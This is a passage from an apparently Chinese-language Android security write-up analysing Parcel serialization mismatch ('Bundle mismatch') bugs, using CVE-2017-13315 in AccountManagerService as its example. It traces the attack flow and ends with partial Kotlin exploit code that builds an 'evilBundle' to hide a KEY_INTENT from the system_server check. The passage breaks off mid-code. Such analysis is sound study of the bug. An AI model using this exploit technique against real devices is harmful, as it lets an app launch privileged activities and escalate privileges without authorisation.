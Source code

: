 ![image-20230222224342112](/images/android_serialization_and_deserialization_vulnerability_analysis/image-20230222224342112.png)

通过对比可以看到在第一次反序列化和和第二次反序列化的结果不一致，成功伪造了`intent=>42`键值对。既然我们能够隐藏这个键值对，就能够绕过第一次的检查进行利用。

以AccountManagerService的漏洞利用（CVE-2017-13315）为例，利用这个漏洞，我们可以达到LaunchAnyWhere的效果，如下所示。

![image-20230223014521087](/images/android_serialization_and_deserialization_vulnerability_analysis/image-20230223014521087.png)

1. 应用程序启动系统Activity以显示帐户选择器（例如`ChooseTypeAndAccountActivity`函数） 

2. 系统Activity请求`AccountManagerService`使用帐户验证器执行操作 

3. `system_server`中的`AccountManagerService`绑定到验证器 

4. `AccountManagerService`调用Account Authenticator上的方法并从中获取响应 

5. `AccountManagerService`检查Authenticator返回的Bundle，如果它指定了指向不属于Authenticator的Activity的KEY_INTENT，结果将被拒绝。 

6. 如果一切正常，`AccountManagerService`将结果Bundle发送回系统Activity 

7. 如果结果 Bundle中含有KEY_INTENT，则系统Activity将启动给定的Activity

上次过程涉及到两次跨进程的序列化数据传输。第一次，攻击者App将Bundle序列化后通过Binder传递给`system_server`，然后`system_server`通过Bundle的一系列getXXX（如`getBoolean`、`getParcelable`)函数触发反序列化，获得KEY_INTENT这个键的值——一个intent对象，进行安全检查。若检查通过，调用writeBundle进行第二次序列化，然后Settings中反序列化后重新获得`{KEY_INTENT:intent}`，调用startActivity。漏洞的关键在于，intent可以由攻击者App指定，那么由于Settings应用为高权限应用（uid=1000），因此可以拉起手机中其他高权限的Activity，从而造成LaunchAnyWhere。

在`DcParamObject`类中，对比`writeToParcel`和`readFromParcel`函数，明显存在Bundle Mismatch

```java
public void writeToParcel(Parcel dest, int flags) {
    dest.writeLong(mSubId);
}
private void readFromParcel(Parcel in) {
    mSubId = in.readInt();
}
```

构造如下Bundle

```kotlin
val evilBundle = Bundle()
val bndlData = Parcel.obtain()
val pcelData = Parcel.obtain()

// Manipulate the raw data of bundle Parcel
// Now we replace this right Parcel data to evil Parcel data
pcelData.writeInt(3) // number of elements in ArrayMap

/*****************************************/
// mismatched object
pcelData.writeString("mismatch")
pcelData.writeInt(Type.VAL_PARCELABLE) // VAL_PACELABLE

pcelData.writeString("com.android.internal.telephony.DcParamObject") // name of Class Loader

pcelData.writeInt(1) //mSubId


pcelData.writeInt(1)
pcelData.writeInt(6)
pcelData.writeInt(13)

pcelData.writeInt(-1) // dummy, will hold the length

val keyIntentStartPos = pcelData.dataPosition()
// Evil object hide in ByteArray
pcelData.writeString(AccountManager.KEY_INTENT)
pcelData.writeInt(4)
```